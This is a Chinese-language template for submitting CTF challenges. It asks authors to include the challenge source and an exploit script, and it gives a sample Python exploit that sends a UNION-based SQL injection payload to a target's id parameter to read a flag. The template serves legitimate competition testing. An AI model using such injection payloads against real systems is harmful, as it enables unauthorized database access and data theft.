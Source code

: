题目源码
----

需要在此处把环境中所有的程序源码投递一份，比如PHP就直接压缩网站根目录，Java的给出项目工程文件打包等。

![](6_填写指南_image.png)

Exploit
-------

Exp脚本，请务必按照此格式编写 EXP，接收 目标IP，目标端口，预期FLAG 三个参数，**如写死这些参数，直接不通过！**

**所有漏洞点都需要提交EXP脚本！**

```python
#!/usr/bin/python
#  -*- coding: utf-8 -*-
import re
import sys
import requests

# 输入为靶机 IP 和端口以及要验证的 flag
HOST = sys.argv[1]
PORT = sys.argv[2]
FLAG = sys.argv[3]

# exp 函数
def exp(ip, port):
    # 构造 Payload
    payload = "3 union select 1,flag from flag limit 1"

    # 请求靶机
    r = requests.get("http://%s:%s/?id=%s" % (ip, port, payload))
    # print(r.text)

    # 匹配 FLAG
    match_group = re.findall("DASCTF{(.*?)}", r.text)
    flag = match_group[0]

    return flag


# 主逻辑
if __name__ == '__main__':
    flag = exp(HOST, PORT)
    # print(flag)
    # 比较得出的 flag 是否是想要的 flag
    assert flag == FLAG
    print("Pass!")
```
